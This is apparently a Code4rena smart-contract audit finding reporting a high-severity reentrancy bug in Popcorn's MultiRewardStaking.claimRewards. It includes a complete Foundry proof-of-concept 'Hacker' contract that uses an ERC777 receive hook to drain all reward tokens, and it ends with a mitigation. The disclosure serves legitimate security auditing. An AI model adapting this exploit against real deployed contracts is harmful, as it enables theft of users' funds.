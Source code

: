 ## Tags

- bug
- 3 (High Risk)
- disagree with severity
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-04

# [Staking rewards can be drained](https://github.com/code-423n4/2023-01-popcorn-findings/issues/402) 

# Lines of code

https://github.com/code-423n4/2023-01-popcorn/blob/d95fc31449c260901811196d617366d6352258cd/src/utils/MultiRewardStaking.sol#L170-L187


# Vulnerability details

## Impact

If ERC777 tokens are used for rewards, the entire balance of rewards in the staking contract can get drained by an attacker.

## Proof of Concept

ERC777 allow users to register a hook to notify them when tokens are transferred to them. 

This hook can be used to reenter the contract and drain the rewards.

The issue is in the `claimRewards` in `MultiRewardStaking`.
The function does not follow the checks-effects-interactions pattern and therefore can be reentered when transferring tokens in the for loop.
https://github.com/code-423n4/2023-01-popcorn/blob/d95fc31449c260901811196d617366d6352258cd/src/utils/MultiRewardStaking.sol#L170-L187
```
  function claimRewards(address user, IERC20[] memory _rewardTokens) external accrueRewards(msg.sender, user) {
    for (uint8 i; i < _rewardTokens.length; i++) {
      uint256 rewardAmount = accruedRewards[user][_rewardTokens[i]];

      if (rewardAmount == 0) revert ZeroRewards(_rewardTokens[i]);

      EscrowInfo memory escrowInfo = escrowInfos[_rewardTokens[i]];

      if (escrowInfo.escrowPercentage > 0) {
        _lockToken(user, _rewardTokens[i], rewardAmount, escrowInfo);
        emit RewardsClaimed(user, _rewardTokens[i], rewardAmount, true);
      } else {
        _rewardTokens[i].transfer(user, rewardAmount);
        emit RewardsClaimed(user, _rewardTokens[i], rewardAmount, false);
      }

      accruedRewards[user][_rewardTokens[i]] = 0;
    }
```

As can be seen above, the clearing of the `accruedRewards` is done AFTER the transfer when it should be BEFORE the transfer.


### Foundry POC
The POC demonstrates and end-to-end attack including a malicious hacker contract that steals all the balance of the reward token.

Add the following file (drainRewards.t.sol) to the test directory:
https://github.com/code-423n4/2023-01-popcorn/tree/main/test
```
// SPDX-License-Identifier: GPL-3.0
// Docgen-SOLC: 0.8.15

pragma solidity ^0.8.15;

import { Test } from "forge-std/Test.sol";
import { MockERC20 } from "./utils/mocks/MockERC20.sol";
import { IMultiRewardEscrow } from "../src/interfaces/IMultiRewardEscrow.sol";
import { MultiRewardStaking, IERC20 } from "../src/utils/MultiRewardStaking.sol";
import { MultiRewardEscrow } from "../src/utils/MultiRewardEscrow.sol";

import { ERC777 } from "openzeppelin-contracts/token/ERC777/ERC777.sol";

contract MockERC777 is ERC777 {
  uint8 internal _decimals;
  mapping(address => address) private registry;

    constructor() ERC777("MockERC777", "777", new address[](0)) {}


  function decimals() public pure override returns (uint8) {
    return uint8(18);
  }

  function mint(address to, uint256 value) public virtual {
    _mint(to, value, hex'', hex'', false);
  }

  function burn(address from, uint256 value) public virtual {
    _mint(from, value, hex'', hex'');
  }
}

contract Hacker {
    IERC20[] public rewardsTokenKeys;
    MultiRewardStaking staking;
    constructor(IERC20[] memory _rewardsTokenKeys, MultiRewardStaking _staking){
      rewardsTokenKeys = _rewardsTokenKeys;
      staking = _staking;

      // register hook
      bytes32 erc777Hash = keccak256("ERC777TokensRecipient");
      bytes memory data = abi.encodeWithSignature("setInterfaceImplementer(address,bytes32,address)", address(this), erc777Hash, address(this));
      address(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24).call(data);
    }

    // deposit into staking
    function approveAndDeposit() external {
      IERC20 stakingToken = IERC20(staking.asset());
      stakingToken.approve(address(staking), 1 ether);
      staking.deposit(1 ether);
    }

    function startHack() external {
      // Claim and reenter until staking contract is drained
      staking.claimRewards(address(this), rewardsTokenKeys);
    }
    function tokensReceived(
        address operator,
        address from,
        address to,
        uint256 amount,
        bytes calldata userData,
        bytes calldata operatorData
    ) external {
      // continue as long as the balance of the reward token is positive
      // In real life, we should check the lower boundry to prevent a revert
      // when trying to send more then the balance.
      if(ERC777(msg.sender).balanceOf(address(staking)) > 0){
        staking.claimRewards(address(this), rewardsTokenKeys);
      }
    }
}

contract DrainRewards is Test {
  MockERC20 stakingToken;
  MockERC777 rewardToken1;
  IERC20 iRewardToken1;
  MultiRewardStaking staking;
  MultiRewardEscrow escrow;

  address feeRecipient = address(0x9999);
  

  function setUp() public {
    stakingToken = new MockERC20("Staking Token", "STKN", 18);
    rewardToken1 = new MockERC777();
    iRewardToken1 = IERC20(address(rewardToken1));
    escrow = new MultiRewardEscrow(address(this), feeRecipient);
    staking = new MultiRewardStaking();
    staking.initialize(IERC20(address(stakingToken)), IMultiRewardEscrow(address(escrow)), address(this));
  }

  function _addRewardToken(MockERC777 rewardsToken) internal {
    rewardsToken.mint(address(this), 10 ether);
    rewardsToken.approve(address(staking), 10 ether);
    staking.addRewardToken(IERC20(address(rewardsToken)), 0.1 ether, 10 ether, false, 0, 0, 0);
  }

  function test__claim_reentrancy() public {
    // Prepare array for `claimRewards`
    IERC20[] memory rewardsTokenKeys = new IERC20[](1);
    rewardsTokenKeys[0] = iRewardToken1;

    // setup hacker contract
    Hacker hacker = new Hacker(rewardsTokenKeys, staking);
    address hackerAddr = address(hacker);
    stakingToken.mint(hackerAddr, 1 ether);
    hacker.approveAndDeposit();

    // Add reward token to staking 
    _addRewardToken(rewardToken1);

    // 10% of rewards paid out
    vm.warp(block.timestamp + 10);

    // Get the full rewards held by the staking contract
    uint256 full_rewards_amount = iRewardToken1.balanceOf(address(staking));

    // Call hacker to start claiming the rewards and reenter
    hacker.startHack();

    // validate we received 100% of rewards (10 eth)
    assertEq(rewardToken1.balanceOf(hackerAddr), full_rewards_amount);
  }
}
```

To run the POC, execute the following command:
```
forge test -m "test__claim_reentrancy" --fork-url=<MAINNET FORK>
```

Expected results:
```
Running 1 test for test/drainRewards.t.sol:DrainRewards
[PASS] test__claim_reentrancy() (gas: 1018771)
Test result: ok. 1 passed; 0 failed; finished in 6.46s
```

## Tools Used

Foundry, VS Code

## Recommended Mitigation Steps

Follow the checks-effects-interactions pattern and clear out `accruedRewards[user][_rewardTokens[i]]` before transferring. 
Additionally, it would be a good idea to add a ReentrancyGuard modifier to the function 